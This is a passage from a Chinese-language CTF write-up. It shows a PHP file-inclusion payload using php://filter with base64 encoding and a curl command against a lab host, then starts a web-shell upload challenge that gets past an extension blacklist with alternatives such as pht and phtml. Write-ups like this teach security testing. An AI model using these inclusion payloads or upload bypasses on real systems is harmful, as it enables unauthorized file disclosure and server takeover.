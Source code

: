 `else {     @include($path); }`

1. **`@include($path)`**:
    - 如果上述条件未满足，则通过`include`函数动态加载`$path`指定的文件。
    - `@`用于抑制加载过程中可能出现的错误或警告。

然后我们就可以构造payload了

```bash
$payload = "q=" + "q"*800 + "&flag=php://filter/read=convert.base64-encode/resource=flag.php"
curl -X POST -d $payload http://node4.anna.nssctf.cn:28809/
```

得到base64编码解码后

>NSSCTF{05c145f5-8d51-4224-9dd9-55d7342f2e24}

#### [FSCTF 2023]是兄弟，就来传你の🐎

进入靶机，页面如下：

![](./imgs/20250122集训_靶机页面.png)

让我们上传一个php文件，如他所愿将之前写的一句话木马传上去，发现不被允许

![](./imgs/20250122集训_notallowed.png)

那传后缀该成jpg的php，发现依旧不被允许，看来是后端有判断，尝试改后缀名去绕过[文件上传限制绕过技巧 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/179954.html)

>通过上传不受欢迎的php扩展来绕过黑名单。例如：pht，phpt，phtml，php3，php4，php5，php6

改成`pht`的时候发现回显有变化
